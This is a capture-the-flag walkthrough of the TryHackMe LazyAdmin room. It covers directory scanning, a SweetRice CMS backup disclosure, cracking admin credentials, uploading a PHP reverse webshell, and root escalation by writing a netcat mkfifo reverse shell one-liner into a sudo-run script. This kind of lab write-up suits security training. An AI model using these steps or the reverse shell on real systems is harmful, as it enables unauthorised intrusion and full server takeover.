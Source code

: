 # LAzyAdmin CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **LazyAdmin** CTF challenge on [TryHackMe](https://tryhackme.com/room/lazyadmin). 
---

basic nmap scan  

![nmap](img/nmap.png "nmap")


feroxbuster found a lot of directories

```
feroxbuster -u http://IP -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![fero](img/fero.png "fero")


by  checking `/content/` we know that servers uses SweetRice CMS

![content](img/content.png "content")

i checked for exploits using `searchsploit`

![exploits](img/exploits.png "exploits")

i checked `SweetRice 1.5.1 - Backup Disclosure` to gain more info

`cat /usr/share/exploitdb/exploits/php/webapps/40718.txt`

![dbexp](img/dbexp.png "dbexp")

i tested if our server has `mysql_backup` like in PoC


```
http://IP/content/inc/mysql_backup
```

![mysql](img/mysql.png "mysql")

there is `.sql` file, i checked whats inside to find something interesting

![sql](img/sql.png "sql")

i asked chatGPT to decode this particular part

![chat](img/chat.png "chat")

and we found login credentials to CMS after using crackstation to find the hash value

![login](img/login.png "login")

![manager](img/manager.png "manager")

once we are inside i found that we can implement our own code in `ads` section, so i will test this by using `php reverse webschell` from pentestmonkey

![ads](img/ads.png "ads")

now by going to `http://IP/content/inc/ads` we see our file, we can use it to test if our shell is working

![shell](img/shell.png "shell")

we successfully logged as `www-data` and got `itguy` flag

![user](img/user.png "user")

now using `sudo -l` and checking the `backup.pl` file mentioned in sudo -l

![sudol](img/sudol.png "sudol")

the script is executing another script located in `/etc/copy.sh`, sadly we cant edit backup.pl file but maybe the other file will be more helpful, the other file is writeable and already has some shell connection hmm

![copy](img/copy.png "copy")

now we need to write our own reverse shell script into `/etc/copy.sh`

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.115.41 4445 >/tmp/f" > /etc/copy.sh
```

using command to spawn a root shell


```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![perl](img/perl.png "perl")

now we have root access and root flag

![root](img/root.png "root")

# MACHINE PWNED

